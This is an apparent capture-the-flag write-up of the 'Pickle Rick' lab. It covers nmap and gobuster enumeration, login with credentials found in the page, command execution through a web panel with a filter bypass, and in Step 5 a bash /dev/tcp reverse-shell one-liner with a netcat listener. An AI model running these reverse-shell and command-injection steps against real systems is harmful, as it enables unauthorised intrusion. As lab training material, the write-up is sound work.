




# Pickle Rick

## Step 1: Port Scanning && Information Gathering

```bash
# Nmap 7.98 scan initiated Wed Mar 11 21:15:15 2026 as: /usr/lib/nmap/nmap --privileged -sS -sV -sC -oN pickle_nmap.txt 10.49.178.220
Nmap scan report for 10.49.178.220
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1e:fb:7a:11:14:2f:fd:d0:f9:06:04:c0:cb:93:67:04 (RSA)
|   256 be:22:1c:74:4f:15:29:5d:85:86:39:de:12:60:6e:b5 (ECDSA)
|_  256 fd:f5:46:3f:eb:4e:16:d0:2d:0a:8a:7f:69:22:49:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### Inspecting the Web Source

- Upon visiting the homepage, I inspected the Page Source. I found a hidden comment revealing a potential username:

Username: `R1ckRul3s`



## Step 2: Directory Listing

- Try Enumerate directory without any extension but noting much I got only find `/assets`

```bash
gobuster dir -u 10.49.178.220 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64
```

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.178.220
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
assets               (Status: 301) [Size: 315] [--> http://10.49.178.220/assets/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================
```

- To find the login page and other hidden files, I used Gobuster. A standard scan didn't reveal much, so I ran a second scan looking for specific file extensions (.php, .txt, .js).

```bash
gobuster dir -u 10.49.178.220 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64 -x php,xml,txt,js
```

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.178.220
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              js,php,xml,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login.php            (Status: 200) [Size: 882]
assets               (Status: 301) [Size: 315] [--> http://10.49.178.220/assets/]
portal.php           (Status: 302) [Size: 0] [--> /login.php]
robots.txt           (Status: 200) [Size: 17]
Progress: 438310 / 438310 (100.00%)
===============================================================
Finished
===============================================================
```

## Step 3: Accessing the Portal

- Navigate to /login.php
- Login with:
  - Username: `R1ckRul3s`
  - Password: `Wubbalubbadubdub`

- Navigate to `Sup3rS3cretPickl3Ingred.txt` you will get the first flag



## Step 4: Exploiting Command Execution

- The "Command Panel" allows for remote command execution. I explored the file system to find the second flag. By listing the contents of the /home/rick directory, I found a file named second ingredients.
- Because the cat command was filtered, I used strings to read the file content:



## Step 5 : Reverse Shell

- Spawn a reverse shell for a more stable environment:

```bash
nc -lvnp 4444
```

```bash
bash -c "bash -i &>/dev/tcp/<host_ip>/port <&1"
```

- To get the final ingredient, I needed to check my permissions. I ran `sudo -l` to see what commands the current user (www-data) could run with root privileges.


